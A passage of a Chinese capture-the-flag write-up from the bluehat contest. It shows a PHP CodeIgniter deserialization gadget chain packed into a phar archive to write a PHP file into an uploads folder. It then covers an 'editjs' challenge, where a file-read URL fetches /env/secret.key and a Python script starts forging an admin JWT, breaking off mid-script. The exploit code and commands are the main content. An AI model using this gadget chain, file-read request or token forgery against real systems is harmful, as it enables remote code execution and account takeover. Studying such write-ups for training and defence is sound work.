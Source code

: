 ```
                "path"=&gt;"C:\Users\Yang_99\Desktop\bluehat\ImageCheck_cada3f80864345f87ae335e4888826eb\public\uploads",
                "fileExtension"=&gt;"bbb.php",
                "filePermissions"=&gt;"aa"
        ]];
        public $logCache;
        protected $cacheLogs = false;
    `}`
`}`

namespace `{`
    $c=new CodeIgniter\Log\Logger();
    $b=new CodeIgniter\Session\Handlers\RedisHandler($c,new redis());
    $a=new CodeIgniter\Cache\Handlers\RedisHandler($b);
    echo urlencode(serialize($a));
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar-&gt;startBuffering();
    $phar-&gt;setStub("&lt;?php __HALT_COMPILER(); ?&gt;"); //设置stub
    $phar-&gt;setMetadata($a); //将自定义的meta-data存入manifest
    $phar-&gt;addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
    $phar-&gt;stopBuffering();

`}`
```



## editjs

这道题打开根据提示发现了JWT token

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01e785285055706968.png)

```
http://eci-2ze44hd5fno9nykys6w3.cloudeci1.ichunqiu.com:8888/getfile?filename=/env/secret.key
```

发现token

```
K3yy
```

使用jwt token进行伪造

脚本

```
import jwt
import time

# payload
token_dict = `{`
  "data": "admin",
  "iat": int(time.time()),
  # "iat": 1629784832 ,
  "exp": int(time.time())+1800
  # "exp": 1629786632
`}`

# headers
headers = `{`
  "alg": "HS256",
  "typ": "JWT"
```